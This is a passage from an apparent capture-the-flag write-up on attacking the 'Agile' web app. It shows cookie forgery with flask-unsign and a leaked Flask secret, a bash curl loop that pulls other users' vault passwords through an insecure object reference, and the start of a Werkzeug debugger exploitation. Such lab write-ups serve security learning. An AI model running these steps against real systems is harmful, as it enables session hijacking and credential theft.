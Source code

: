 While the `_id` appears to be a unique string likely tied to our current login session, we can see that we are user_id 9. Assuming the count starts at 0 and the admin has the first account, I edit this segment of the cookie and then I must re-sign using Flask's secret key. To do so, I utilize the popular tool [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign).

```
┌──(kali㉿kali)-[~/Documents/Agile]
└─$ cat tosign.txt                                      
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '0'}
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/Agile]
└─$ flask-unsign -s -S 'tDxE1kBphctDjlZ1DvYf' --cookie tosign.txt
InRvc2lnbi50eHQi.ZMqw8Q.zmr3nM3FEIqwYykzEMSZnSCCPsk
```

Unfortunately, trying to use this cookie resulted in a failure. Presumably, the `_id` hash no longer correlates to `_user_id` value and the cookie session becomes invalid.

#### IDOR access on other user's passwords
When following the request trail involved in editing a password or leaving editor mode, we can see the url activities visiting `/vault/row/<id>` or `/vault/edit_row/<id>`. Additionally, when reviewing the source code, we see a similar check being performed, with seemingly no verification on the user. We can write a quick script to check a number range, or do the same in Burpsuite Intruder option:
```bash
#!/bin/bash
for i in {0..15}  
do  
 curl http://superpass.htb/vault/get/$i --cookie "session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmY  
x6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZMqudQ.Z2CKAj5PpZ0A7xvhgTgYMlpMJ0c"  
done
```
This approach was successful on box release, but has since been patched. Apparently it was never an intended approach.

## Foothold
### Recreating Werkzeug's Debugger PIN

Eventually I turn myself to the system's active `debugger` mode. We noticed that this is turned on, since when we requested to download a file that didn't exist, we saw detailed traceback. From these error pages, we can open an interactive terminal by clicking on the console icon available when hovering over one of the code lines:
